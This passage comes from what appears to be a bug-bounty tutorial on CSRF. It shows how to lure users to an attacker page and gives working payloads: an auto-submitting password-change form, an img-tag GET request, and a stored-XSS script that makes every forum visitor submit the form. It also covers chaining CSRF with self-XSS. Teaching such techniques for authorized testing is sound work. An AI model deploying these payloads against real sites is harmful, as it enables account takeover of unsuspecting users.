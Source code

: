 ## Delivering the CSRF payload

The easiest option of delivering a CSRF payload is to trick users into visiting an external malicious site. 

Assume `example.com` has a forum that users frequent. Post a link like this on the forum to encourage users to visit their page:

    Visit this page to get a discount on your example.com subscription:
    https://example.attacker.com

And on `example.attacker.com`, host an auto-submitting form to execute the CSRF:

    <html>
        <form method="POST" action="https://email.example.com/set_password" id="csrf-form">
            <input type="text" name="new_password" value="this_account_is_now_mine">
            <input type='submit' value="Submit">
        </form>
        <script>document.getElementById("csrf-form").submit();</script>
    </html>

For CSRFs executable via a `GET` request, try to embed the request as an image directly, for example, as an image posted to a forum.

    <img src="https://email.example.com/set_password?new_password=mine">

Or deliver a CSRF payload to a large audience by exploiting `stored-XSS`. If the forum comment field suffers from this vulnerability, an attacker can submit a `stored-XSS` JS payload there to make any forum visitor execute the attacker’s malicious script.

    <script>
        document.body.innerHTML += "
            <form method="POST" action="https://email.example.com/set_password" id="csrf-form">
                <input type="text" name="new_password" value="mine">
                <input type='submit' value="Submit">
            </form>";
        document.getElementById("csrf-form").submit();
    </script>

This way, you can show companies how attackers can realistically attack many users and demonstrate the maximum impact of the found CSRF vulnerability. If you have Burp Suite Pro, or use Zap, you can also take advantage of their CSRF POC-generation functionalities.

## Escalation

While the majority of CSRFs are low-severity issues, sometimes a CSRF on a critical endpoint can lead to severe consequences. Escalate CSRFs into severe security issues to maximise their impact.

CSRF can sometimes cause information leaks as a side effect. Applications often send or disclose information according to user preferences. If you can change these settings via CSRF, you can pave the way for sensitive information disclosures.

Self-XSS is a kind of XSS attack that requires the victim to input the XSS payload. These vulnerabilities are almost always considered a nonissue because they’re too difficult to exploit; doing so requires a lot of action from the victim’s part, and thus you’re unlikely to succeed. But, when you combine CSRF with self-XSS, you can often turn the self-XSS into stored XSS.
